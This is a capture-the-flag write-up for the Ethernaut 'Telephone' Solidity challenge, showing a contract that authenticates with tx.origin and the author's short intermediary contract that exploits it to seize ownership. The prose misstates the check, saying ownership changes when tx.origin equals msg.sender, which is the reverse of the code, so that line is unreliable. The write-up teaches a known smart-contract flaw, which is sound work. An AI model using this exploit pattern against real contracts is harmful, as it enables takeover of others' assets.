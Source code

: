 # Challenge 4 - Telephone

## Understanding the code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

```

This is a simple contract but let's understand what the function is doing here.

The function changeOwner which takes in _owner of type address as a parameter basically declares that if the original transaction sender and the sender of the "msg" or the ETH is the same then the _owner address now becomes the new owner.

- ```tx.origin``` is a global variable that refers to the original externally owned account of the transaction and it is of type address. Read the docs about tx.origin [here](https://docs.soliditylang.org/en/v0.8.17/units-and-global-variables.html?highlight=tx.origin)
- ```msg.sender``` is the address of the user that invokes the function. Read the docs about msg.sender [here](https://docs.soliditylang.org/en/v0.8.17/units-and-global-variables.html?highlight=msg.sender)

### What is an Externally Owned Account(EOA)?

EOA is a the user's wallet address. Example: your Metamask account's address is an EOA.
EOAs satisfy the following conditions:
- Only type of account that can initiate a transaction and
- Only type of account that owns a private key

This challenge requires us to make a Phishing Attack on this contract and teach us why one shouldn't use tx.origin to authenticate an account to execute a function.

The following is the code that I used on Remix IDE and injected onto the Telephone.sol contract in order to conduct a Phishing Attack.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import './Telephone.sol';

contract TelephonePhishing {

    Telephone telephoneContract;

    constructor(address _addr) public{
        telephoneContract = Telephone(_addr);
    }

    function phish(address _addr) public{
        telephoneContract.changeOwner(_addr);
    }
}
```


